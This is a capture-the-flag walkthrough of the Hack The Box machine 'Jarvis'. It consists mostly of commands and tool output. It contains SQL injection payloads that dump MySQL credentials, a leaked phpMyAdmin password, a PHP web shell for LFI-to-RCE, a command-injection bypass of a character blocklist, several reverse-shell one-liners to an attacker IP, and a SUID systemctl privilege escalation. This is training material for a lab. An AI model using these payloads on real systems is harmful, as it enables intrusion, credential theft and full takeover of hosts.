







# Jarvis
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.143 --min-rate 5000                                                            
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 19:46 BST
Nmap scan report for 10.10.10.143 (10.10.10.143)
Host is up (0.21s latency).
Not shown: 65478 filtered tcp ports (no-response), 55 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
64999/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 28.66 seconds
```
```
└─$ nmap -Pn -p22,80,64999 -sC -sV 10.10.10.143 --min-rate 5000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 19:47 BST
Nmap scan report for 10.10.10.143 (10.10.10.143)
Host is up (0.24s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Stark Hotel
|_http-server-header: Apache/2.4.25 (Debian)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.25 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.80 seconds

```

- Web server


- Port `64999`



- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.143 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.143
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 313] [--> http://10.10.10.143/images/]
/index.php            (Status: 200) [Size: 23628]
/nav.php              (Status: 200) [Size: 1333]
/footer.php           (Status: 200) [Size: 2237]
/css                  (Status: 301) [Size: 310] [--> http://10.10.10.143/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.143/js/]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.10.143/fonts/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://10.10.10.143/phpmyadmin/]
/connection.php       (Status: 200) [Size: 0]
/room.php             (Status: 302) [Size: 3024] [--> index.php]
/sass                 (Status: 301) [Size: 311] [--> http://10.10.10.143/sass/]
```

## Foothold
- Clicking around the page, we get to `room.php` with `cod` parameters which returns rooms based on `id`
  - If add `'` to parameter, the page breaks




- Let's try `sqlmap`

```
└─$ sqlmap -u http://10.10.10.143/room.php?cod=1 --batch                                                              
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.7.9#stable}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>
GET parameter 'cod' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 324 HTTP(s) requests:
---
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=1 AND 2368=2368
---
[13:40:12] [INFO] testing MySQL
[13:40:12] [INFO] confirming MySQL
[13:40:13] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: Apache 2.4.25, PHP
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[13:40:14] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 226 times
[13:40:14] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.10.143'

[*] ending @ 13:40:14 /2023-10-28/

```

- I dumped the databases
  - `hotel` had only rooms
  - So I dumped `mysql.user` table
  - By the way, `sqlmap` after a while will get banned by `WAF`
  - So we have to do it manually
  - `http://10.10.10.143/room.php?cod=1000+union+select+1,2,3,4,5,6,7;-- -`
  - `http://10.10.10.143/room.php?cod=1000+union+select+1,group_concat(user),3,group_concat(password),5,6,7+from+mysql.user;-- -`




- Now we can login to `phpmyadmin`
  - `DBadmin:imissyou`



- We have a `PHPMyAdmin 4.8.0` which has a [RCE](https://www.exploit-db.com/exploits/50457)
  - https://medium.com/@happyholic1203/phpmyadmin-4-8-0-4-8-1-remote-code-execution-257bcc146f8e
  - There is a `LFI` in `index.php`
    - http://10.10.10.143/phpmyadmin/index.php?target=db_sql.php%3f/../../../../etc/passwd



- Next we open `SQL` windows and run `SELECT '<?php system($_REQUEST["cmd"]);?>' ` query
  - Paste query and click `Go`


- Then we visit `http://10.10.10.143/phpmyadmin/index.php?target=db_sql.php%3f/../../../../../var/lib/php/sessions/sess_<PHPMYADMIN_SESSION>&cmd=id`


- We have our `rce`, let's get reverse shell
  - url-encoded: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.4 6666 >/tmp/f`



- There is another way to get a reverse shell via [SQLi](https://0xdf.gitlab.io/2019/11/09/htb-jarvis.html#path-2-webshell-via-sqli)
## User
- `sudo`
```
www-data@jarvis:/usr/share/phpmyadmin$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

- We can execute `simpler.py` as `pepper`
```
www-data@jarvis:/usr/share/phpmyadmin$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -h
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************


********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
```

- I checked the content of the script
  - `ping` looks interesting

```
...

def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
...
```

- It has banned chars, except `$(<COMMAND>)`
  - Let's try it
  - I'll create a script
```
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.10.16.4/7777 0>&1

```

- Run `simpler.py` and enter for IP prompt `$(/tmp/rev.sh)`

```
www-data@jarvis:/tmp$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p 
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(/tmp/rev.sh)
```

- We receive our shell


## Root
- `linpeas` show `systemctl` has `suid` set
```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                                                                            
strace Not Found                                                                                                                                                                                                                            
-rwsr-xr-x 1 root root 31K Aug 21  2018 /bin/fusermount                                                                                                                                                                                     
-rwsr-xr-x 1 root root 44K Mar  7  2018 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 60K Nov 10  2016 /bin/ping
-rwsr-x--- 1 root pepper 171K Jun 29  2022 /bin/systemctl
-rwsr-xr-x 1 root root 31K Mar  7  2018 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 40K Mar 17  2021 /bin/su
-rwsr-xr-x 1 root root 40K Mar 17  2021 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 59K Mar 17  2021 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 75K Mar 17  2021 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 40K Mar 17  2021 /usr/bin/chsh
-rwsr-xr-x 1 root root 138K Jan 23  2021 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 49K Mar 17  2021 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 431K Mar  1  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 42K Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

- [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/)
  - Create a `<filename>.service` file
```
[Service]
Type=oneshot
ExecStart=/bin/bash -c "nc 10.10.16.4 8888 -e /bin/bash"
KillMode=process

[Install]
WantedBy=multi-user.target

```

- Then we link the service
  - Make sure to place the file in `/dev/shm`
    - I tried placing it in `/tmp`, it didn't work
  - Start the service
    - If you change service file, make sure to run `systemctl daemon-reload`
```
pepper@jarvis:/dev/shm$ nano rev.service
pepper@jarvis:/dev/shm$ systemctl link /dev/shm/rev.service  
Created symlink /etc/systemd/system/rev.service -> /dev/shm/rev.service.
pepper@jarvis:/dev/shm$ systemctl start rev

```

